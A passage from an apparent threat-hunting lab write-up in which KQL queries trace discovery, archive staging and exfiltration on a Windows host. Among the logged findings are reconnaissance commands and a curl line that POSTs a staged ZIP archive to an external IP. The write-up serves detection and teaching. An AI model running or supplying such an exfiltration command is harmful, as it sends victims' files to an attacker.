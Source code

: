 ```
"cmd.exe" /c systeminfo
whoami.exe
"cmd.exe" /c "wmic computersystem get domain"
quser.exe
```

**Commentary:**
Analysed and processed former logs to identify the attacker gathered system and user information to understand the environment and privileges.

---

### **6️⃣ Collection — Archive Created**

**Objective:** Detect data collection or staging before exfiltration.

**KQL Query**

```kql
DeviceFileEvents
| where FileName endswith ".zip"
| where FolderPath has_any ("\\Temp\\","\\AppData\\")
| project Timestamp, FolderPath, FileName, InitiatingProcessFileName
```

**Findings**

```
C:\Users\SLFlare\AppData\Local\Temp\backup_sync.zip
```

**Commentary:**
Look for file creation or process activity involving archiving tools. Focus on .zip, .rar, or .7z files created in non-standard directories such as Temp, AppData, or ProgramData. The attacker compressed sensitive data into a ZIP archive stored in a temporary directory.


---

### **7️⃣ Exfiltration — Outbound POST to C2**

**Objective:** Identify exfiltration of data to an external IP or domain.

**KQL Query**

```kql
DeviceNetworkEvents
| where DeviceName == "slflarewinsysmo"
| where RemoteIP == "185.92.220.87"
| project Timestamp, RemoteIP, RemotePort, InitiatingProcessCommandLine
```

**Findings**

```
curl -X POST -F "file=@C:\Users\SLFlare\AppData\Local\Temp\backup_sync.zip" http://185.92.220.87:8081/upload
Destination: 185.92.220.87:8081
```
